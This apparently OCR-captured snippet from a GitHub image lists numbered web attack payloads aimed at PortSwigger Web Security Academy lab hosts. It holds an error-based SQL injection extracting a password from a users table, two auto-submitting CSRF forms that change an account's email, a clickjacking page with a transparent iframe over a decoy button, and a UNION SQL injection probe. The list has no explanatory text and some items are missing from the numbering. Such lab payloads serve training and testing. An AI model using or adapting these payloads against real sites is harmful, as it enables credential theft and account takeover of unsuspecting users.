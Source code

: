 1. ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

3. <form method="POST" action="https://0a0c005f033c58008046c616006d0003.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="Wiener@websecurity.net">
</form>
<script>
        document.forms[0].submit();
</script>

4. <form action="https://0a9b00fa0416b229820142c5003f00e0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="Wiener@websecurity.net">
</form>
<script>
        document.forms[0].submit();
</script>


5. <style>
    iframe {
        position:relative;
        width:450px;
        height:700px;
        opacity:0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click here</div>
<iframe src="https://0a9500b304442a548228116000380086.web-security-academy.net/my-account?email=openxt@test.cst"></iframe>

12. '+UNION+SELECT+NULL--
